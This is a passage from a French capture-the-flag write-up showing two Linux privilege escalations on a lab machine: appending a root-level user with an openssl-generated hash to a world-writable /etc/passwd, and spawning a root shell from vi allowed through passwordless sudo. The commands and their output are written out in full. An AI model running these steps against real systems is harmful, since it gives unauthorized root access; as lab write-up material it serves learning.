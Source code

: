 ```plain
$ find /etc/ -writable -type f  2> /dev/null
/etc/papersize
/etc/hostname
/etc/default/keyboard
/etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/etc/skel/.config/mimeapps.list
/etc/skel/.config/xfce4/desktop/icons.screen0-1350x721.rc
/etc/skel/.config/xfce4/panel/whiskermenu-10.rc
/etc/skel/.config/xfce4/panel/datetime-2.rc
/etc/relinux/relinux.conf
/etc/relinux/relinux/wubi/wubi.exe
/etc/relinux/relinux/isolinux/isolinux.cfg.vesamenu
/etc/relinux/relinux/splash/splash.png
/etc/relinux/relinux/version
/etc/relinux/relinux/preseed/custom.seed
/etc/passwd
/etc/timezone
/etc/fstab
/etc/passwd-
/etc/hosts
$ openssl passwd -1 -salt user9 s3cr3t
$1$user9$JUQJ5MIu8N.kJJmfhHrfc0
$ echo 'user9:$1$user9$JUQJ5MIu8N.kJJmfhHrfc0:0:0:/root:/bin/bash' >> /etc/passwd
```

Plus qu'à se connecter avec nos nouveaux identifiants (*user9 / s3cr3t*) :

```plain
$ su user9
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

User8 vers root
---------------

```plain
 user8  ~  id
uid=1007(user8) gid=1007(user8) groups=1007(user8)
 user8  ~  sudo -l
Matching Defaults entries for user8 on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on osboxes:
    (root) NOPASSWD: /usr/bin/vi
 user8  ~  sudo /usr/bin/vi

--- une fois dans Vi on tape :!sh<entrée>

# id
uid=0(root) gid=0(root) groups=0(root)
```

Tous les chemins mènent à root
------------------------------

CTF très classique et basique, quelques privesc originales auraient été les bienvenues.

*Published July 09 2019 at 18:06*